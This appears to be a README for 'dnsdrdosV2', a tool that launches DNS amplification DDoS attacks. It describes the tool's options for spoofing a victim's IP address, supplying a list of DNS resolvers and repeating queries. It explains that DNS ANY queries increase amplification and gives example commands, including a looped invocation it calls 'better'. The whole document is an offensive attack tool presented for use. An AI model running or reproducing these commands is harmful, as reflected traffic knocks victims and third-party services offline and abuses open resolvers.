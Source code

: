 # DNS amplification DDOS attack
This is an edited version of the original script of noptrix of nullsecurity.net.
Now the script will send DNS ANY query instead of DNS A query.

DNS ANY query request more data and because of that increase the amplification of the attack

usage:
  dnsdrdosV2 -f <file> [options] | [misc]
    
target:
  -f <file>       - list of dns servers (only one ip-address per line!)
  -s <addr>       - ip-address to spoof (default: 127.0.0.1)
  -d <domain>     - which domain should be requested? (default: "google.com.")
  -l <num>        - how many loops through list? (default: 10000)

misc:
  -V              - show version
  -H              - show help and usage

example:
  ./dnsdrdosV2 -f nameserver.lst -s 192.168.2.211 -d google.com. -l 10000
  
  or better:
  $ for i in `seq 1 1000`; do ./dnsdrdosV2 -f nameserver.lst -s 192.168.2.211 -d $i -l 10000; done

  This is better, because we ask dynamically for any domain names.
  Even if the domainname is not given, 'we' still would recieve DNS answers.
